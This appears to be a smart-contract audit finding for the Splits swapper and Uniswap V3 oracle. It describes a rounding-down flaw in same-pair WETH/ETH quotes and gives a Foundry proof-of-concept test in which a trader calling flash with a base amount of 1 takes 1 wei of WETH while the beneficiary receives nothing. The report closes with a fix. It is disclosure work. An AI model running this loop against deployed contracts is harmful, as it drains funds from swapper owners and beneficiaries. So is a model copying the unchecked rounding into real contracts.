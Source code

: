 theOwl

medium

# Price Manipulation through inputting small values for the same pair logic

## Summary
An user could use the Diversifyer template to make a swapper that is exchange weth to eth or vice-verse,  [this case](https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-oracle/src/UniV3OracleImpl.sol#L258) have been acknowledge by the developer team by checking for the same address, the baseAmount variable could have a very small value that will  make a round down possible and allow users to get free funds.

## Vulnerability Detail
[_getQuoteAmount](https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-oracle/src/UniV3OracleImpl.sol#L248) is responsible inside the Oracle Implementation logic to fetch the price for a pair using the Uniswap V3 TVWAP oracle,  in this logic the developers have also treated the case when the swapper is asking for the feed if the base and quote token are the same, this case would be when the beneficiary is looking to exchange weth for eth or vice versa ( this happens because ETH is treated as address(0) inside the contract logic  and if the converted tokens are equal then the oracle is not fetching for any price, because it will fail, and it will directly calculate the output using the formula  `quoteParams_.baseAmount * po.scaledOfferFactor / PERCENTAGE_SCALE;` ).  If the baseAmount will be `1 `then  the output can be 0 ( 1* 99_00_00/ 100_00_00 ) because of the round down in solidity.  Then the swapper will send 1 wei of WETH to the attacker and 0 ETH to the beneficiary, the attack could be run in a loop to maximise profits as the only attack cost is the gas for the transaction. 

## Impact
Let's take the following example :

1. Alice received from slipper in her 1:1 swapper WETH that wants to covert to ETH. 
2. Alice have settled a discount of 0,1% as the tokens are fairly expensive and it is a free trade risk for the trader. 
3. The trader calls the flash function with the base amount of 1 . 
4. Trader will receive 1 wei WETH, beneficiary will receive 0 ETH ( no balance deducted from trader ) and swapper will have 1 ether - 1 WETH. 
The attack could be run in a loop to maximise profit as the amount returned by the oracle will also be round down to 0. 

POC: 

```solidity
    function test_audit_fork_weth_eth_pair() public {
        string memory MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        vm.createSelectFork(MAINNET_RPC_URL, BLOCK_NUMBER);
        
        trader = address(new Trader());

        oracleFactory = new UniV3OracleFactory({
            uniswapV3Factory_: IUniswapV3Factory(UNISWAP_V3_FACTORY),
            weth9_: WETH9
        });
        //default fee 0,05%
        initOracleParams.defaultFee = 5_00;
        initOracleParams.defaultPeriod = 30 minutes;
        initOracleParams.defaultScaledOfferFactor = 99_00_00;
        initOracleParams.owner = address(this);
        UniV3OracleImpl oracleUniV3Impl = oracleFactory.createUniV3Oracle(initOracleParams);

        //create the quote pair
        QuotePair memory wethETH = QuotePair({base: WETH9, quote: ETH_ADDRESS});
        qParams.push(OracleImpl.QuoteParams({
                quotePair: wethETH,
                baseAmount: 1,  
                data: ""
        }));

        pairOverrides.push(
            UniV3OracleImpl.SetPairOverrideParams({
                quotePair: wethETH,
                pairOverride: UniV3OracleImpl.PairOverride({
                    fee: 0, // no override
                    period: 0, // no override
                    scaledOfferFactor: 99_90_00
                })
            })
        );

        oracleUniV3Impl.setPairOverrides(pairOverrides);  

        uint256[] memory amounts = oracleUniV3Impl.getQuoteAmounts(qParams);
        for(uint i; i< amounts.length; i++){
            console.log("Amount: ", amounts[i]);
        }
        oracleParams.oracle = OracleImpl(address(oracleUniV3Impl));
        //the swapper with the oracle
        swapperFactory = new SwapperFactory();
        createSwapperParams = SwapperFactory.CreateSwapperParams({
            owner: users.alice,
            paused: false,
            beneficiary: beneficiary,
            tokenToBeneficiary: ETH_ADDRESS,
            oracleParams: oracleParams
        });
        
        swapper = swapperFactory.createSwapper(createSwapperParams);

        vm.deal(trader, 1 ether);
        deal(WETH9, address(swapper), 1 ether);

        vm.startPrank(trader);
        swapper.flash(qParams, "");
        vm.stopPrank();

        uint traderWETHBalance = IERC20(WETH9).balanceOf(trader);
        uint beneficiaryETHBalance = address(beneficiary).balance;
        uint swapperWETHBalance = IERC20(WETH9).balanceOf(address(swapper));


        assertEq(traderWETHBalance, 1);
        assertEq(beneficiaryETHBalance, 0);
        assertEq(swapperWETHBalance, 1 ether - 1);

        
    }
```


## Code Snippet
https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-oracle/src/UniV3OracleImpl.sol#L248
https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-oracle/src/UniV3OracleImpl.sol#L249
https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-oracle/src/UniV3OracleImpl.sol#L258-L260
https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-swapper/src/SwapperImpl.sol#L203
https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-swapper/src/SwapperImpl.sol#L227
https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-swapper/src/SwapperImpl.sol#L231
https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-swapper/src/SwapperImpl.sol#L249
https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-swapper/src/SwapperImpl.sol#L257

## Tool used

Manual Review

## Recommendation

1. Add a check inside the function [_getQuoteAmount](https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-oracle/src/UniV3OracleImpl.sol#L258) at L#258 that if the result of the equation from [L#259](https://github.com/sherlock-audit/2023-04-splits/blob/7303cc26205f10ca9111be31f3574d2573df92b1/splits-oracle/src/UniV3OracleImpl.sol#L259) 
will be 0 or `if baseAmount < 9 ` ( baseAmount needs to be >= 10 to not have a round down ) it will revert 
